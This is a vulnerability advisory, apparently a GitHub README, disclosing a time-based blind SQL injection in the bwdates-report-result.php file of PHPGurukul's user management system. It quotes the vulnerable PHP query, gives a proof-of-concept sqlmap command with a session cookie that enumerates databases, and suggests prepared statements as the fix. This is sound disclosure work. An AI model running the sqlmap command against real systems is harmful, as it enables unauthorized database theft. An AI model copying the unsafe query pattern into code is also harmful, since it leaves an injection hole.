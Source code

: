 # 🐞 SQL Injection in `bwdates-report-result.php` — User Registration & Login and User Management System With Admin Panel <= v3.3


### 👨‍💻 BUG Author:

**4m3rr0r**

---

### 📦 Product Information:

* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link:** [https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/](https://phpgurukul.com/user-registration-login-and-user-management-system-with-admin-panel/)
* **Affected Version:** ≤ 3.3


---

### 🛠 Vulnerability Details

#### 🧨 Vulnerability Type:

**SQL Injection (Time-Based Blind)**

---

#### 🧬 Root Cause:

The application directly interpolates unvalidated POST parameters (`fromdate`, `todate`) into SQL queries without proper sanitization or use of prepared statements:

```php
$ret=mysqli_query($con,"select * from users where date(posting_date) between '$fdate' and '$tdate'");
```

---

#### ⚠️ Impact:

* An authenticated attacker can execute arbitrary SQL queries on the database.
* Potential to extract sensitive user data (e.g., emails, contact numbers, and registration info).
* Can enumerate all databases and their contents.
* May lead to full database compromise if escalated.

---

#### 📋 Description:

The `bwdates-report-result.php` file is vulnerable to SQL Injection via POST parameters `fromdate` and `todate`. Due to lack of input sanitization, an attacker can manipulate SQL queries by injecting malicious payloads. Exploitation is possible through authenticated sessions.

---

#### 🔬 Proof of Concept:

```bash
sqlmap -u "http://192.168.16.109/loginsystem/admin/bwdates-report-result.php" \
--data="fromdate=2024-01-01&todate=2025-12-31" \
--cookie="PHPSESSID=pakmg0q2gnmjag2514g76fdmtd" \
--dbs
```

![sqlmap](./Images/2025-07-10_21-46.png) 


---

#### 🛡 Suggested Remediation:

* Use **prepared statements (PDO or MySQLi)** with bound parameters.
* Example (MySQLi with bind):

```php
$stmt = $con->prepare("SELECT * FROM users WHERE date(posting_date) BETWEEN ? AND ?");
$stmt->bind_param("ss", $fdate, $tdate);
$stmt->execute();
```

* Sanitize and validate all user inputs before usage in SQL queries.

---

#### 🔐 Security Recommendations:

* Implement Web Application Firewall (WAF) to detect and block SQLi attempts.
* Enable detailed input validation on server-side.
* Enforce least privilege database access.
* Use security libraries or ORM frameworks when possible.

---

#### 📚 References:

* [https://owasp.org/www-community/attacks/SQL\_Injection](https://owasp.org/www-community/attacks/SQL_Injection)
* [https://phpgurukul.com](https://phpgurukul.com)

---
